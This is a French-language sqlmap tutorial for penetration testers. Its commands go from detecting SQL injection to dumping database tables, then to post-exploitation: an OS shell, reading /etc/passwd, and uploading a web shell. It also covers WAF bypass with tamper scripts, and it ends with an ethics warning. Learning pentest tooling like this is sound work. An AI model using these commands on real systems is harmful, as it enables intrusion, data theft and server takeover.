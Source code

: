 # 💉 SQLMap : Le Guide Pratique

SQLMap est un outil open-source qui automatise la détection et l'exploitation des failles d'injection SQL. C'est l'outil de référence pour tout ce qui touche aux bases de données en pentest.

## 🔥 Le Workflow Essentiel : de la Faille au Dump

Le processus est presque toujours le même. Une fois que vous avez une URL avec un paramètre qui semble suspect (ex: `page.php?id=1`), le jeu commence.

```bash
# 1. Lancer le test initial
# L'option --batch répond "oui" à tout pour aller plus vite.
sqlmap -u "http://example.com/page.php?id=1" --batch

# 2. Lister les bases de données (si une faille est trouvée)
sqlmap -u "http://example.com/page.php?id=1" --dbs --batch

# 3. Lister les tables de la base de données qui vous intéresse
sqlmap -u "http://example.com/page.php?id=1" -D nom_de_la_base --tables --batch

# 4. Lister les colonnes de la table qui vous intéresse
sqlmap -u "http://example.com/page.php?id=1" -D nom_de_la_base -T nom_de_la_table --columns --batch

# 5. Dumper (extraire) les données !
sqlmap -u "http://example.com/page.php?id=1" -D nom_de_la_base -T nom_de_la_table --dump --batch
```

## 🎯 Ciblage Avancé

Parfois, une simple URL ne suffit pas.

- **Tester un formulaire (requête POST) :**
  ```bash
  sqlmap -u "http://example.com/login.php" --data="user=admin&pass=123"
  ```

- **Le plus pratique : Utiliser un fichier de requête Burp Suite.**
  1. Dans Burp, interceptez une requête (POST ou GET).
  2. Clic droit -> "Save item". Enregistrez-la dans un fichier (ex: `req.txt`).
  3. Lancez sqlmap sur ce fichier. Il s'occupera de tout (cookies, headers, etc.).
  ```bash
  sqlmap -r req.txt --batch
  ```

## 🚀 Aller Plus Loin : Options Clés

- `--level=<1-5>` : Augmente la profondeur des tests. Un `level 3` teste aussi les cookies et les `Referer`. Un `level 5` est le plus complet.
- `--risk=<1-3>` : Augmente le "risque" des payloads. Un `risk 3` peut être plus agressif.
- `--technique=<BEUST>` : Force une technique d'injection spécifique (B: Boolean, E: Error, U: Union, S: Stacked, T: Time).

```bash
# Un scan très approfondi, à lancer quand les scans de base ne trouvent rien.
sqlmap -r req.txt --level=5 --risk=3 --batch
```

## 💀 Post-Exploitation : Prendre le Contrôle du Serveur

Si l'utilisateur de la base de données a des privilèges suffisants, `sqlmap` peut devenir un outil de prise de contrôle.

| Commande | Description |
|---|---|
| `--os-shell` | Tente d'obtenir un shell interactif sur le système d'exploitation. |
| `--os-cmd="whoami"` | Exécute une seule commande système. |
| `--file-read="/etc/passwd"` | Lit un fichier sur le serveur. |
| `--file-write="shell.php" --file-dest="/var/www/html/uploads/shell.php"` | Uploade un fichier sur le serveur. |

## 🛡️ Contournement de WAF (Web Application Firewall)

Les WAF sont conçus pour bloquer les attaques SQL. `sqlmap` a des scripts de "tampering" pour obfusquer les payloads et tenter de les contourner.

```bash
# Utilise des scripts pour remplacer les espaces par des commentaires, etc.
sqlmap -r req.txt --tamper=space2comment,randomcase --batch
```
Il existe des dizaines de scripts de tamper. N'hésitez pas à en essayer plusieurs si vous êtes bloqué par un WAF.

---
> ⚠️ **USAGE ÉTHIQUE** : `sqlmap` est un outil extrêmement puissant. Son utilisation sans autorisation est illégale et peut causer des dommages irréversibles à une base de données.